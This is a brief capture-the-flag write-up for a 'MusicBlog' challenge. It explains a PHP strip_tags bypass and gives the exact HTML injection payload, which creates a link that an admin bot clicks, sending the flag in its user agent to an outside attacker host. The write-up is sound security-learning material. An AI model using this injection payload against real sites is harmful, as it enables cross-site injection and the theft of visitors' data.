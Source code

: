 #MusicBlog

- Using the php [bug](https://bugs.php.net/bug.php?id=78814), bypass strip_tags to inject an `a` tag.
- The bot clicks the element with the id `like`, so inject an `a` tag with the id=like.
- Flag is in the user agent, so the bot clicking our link will give us the flag:

```
[[lol"></audio><a/udio id="like" href="http://hax.perfect.blue:6969/lel">HAXXX<audio src="]]
```

